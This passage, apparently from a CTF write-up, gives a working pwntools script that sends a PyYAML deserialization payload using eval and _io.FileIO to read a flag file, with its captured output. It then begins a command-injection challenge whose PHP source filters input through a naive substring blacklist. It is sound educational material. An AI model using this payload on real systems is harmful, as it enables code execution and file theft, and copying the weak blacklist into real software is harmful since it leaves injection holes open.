 Our working exploit, again without having the source code, looks like this:

```python
from pwn import *

payload = """
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "__import__('_io').FileIO('flag.txt', 'r').read()" ]]]
"""
payload = payload.lstrip()
print(payload)

# conn = remote('34.159.3.158', 32062)
conn = remote('34.159.7.96', 30380)
conn.send(payload.encode('utf-8'))
print(conn.recvall(timeout=2))
```

The important part, is directly accessing `_io.FileIO` imported with the `__import__` builtin, instead of using `open`. And we get the flag:

```
b"/home/ctf/server.py:15: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecate
d, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.\
r\n(b'CTF{b4b7ad802bf06191e9d68127e718d375933ed30d26c72d71b26b5f437ca726d8}\\n',)\r\n"
```

## para-code

Challenge description:

> I do not think that this API needs any sort of security testing as it only executes and retrieves the output of ID and PS commands.
> 

No files are provided. But the challenge website, prints out its own source.

```php
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
```